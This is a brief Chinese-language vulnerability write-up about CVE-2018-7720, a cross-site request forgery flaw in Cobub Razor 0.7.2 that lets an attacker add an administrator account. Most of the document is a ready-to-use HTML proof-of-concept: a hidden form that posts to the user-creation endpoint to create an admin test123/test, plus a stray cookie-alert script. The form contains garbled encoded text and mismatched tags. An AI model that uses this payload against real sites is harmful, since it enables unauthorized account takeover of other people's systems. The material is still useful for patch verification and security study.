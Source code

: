 ```yaml
---
title: （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞
id: zhfly2847
---
```


# （CVE-2018-7720）Cobub Razor 0.7.2 存在跨站请求伪造漏洞

## 一、漏洞简介

Cobub Razor 0.7.2存在跨站请求伪造漏洞，管理员登陆后访问特定页面可增加管理员账号。保存如下利用代码为html页面，打开页面将增加test123/test的管理员账号。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<body>
  <script>alert(document.cookie)</script>
    <form action="http://0-sec.org/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```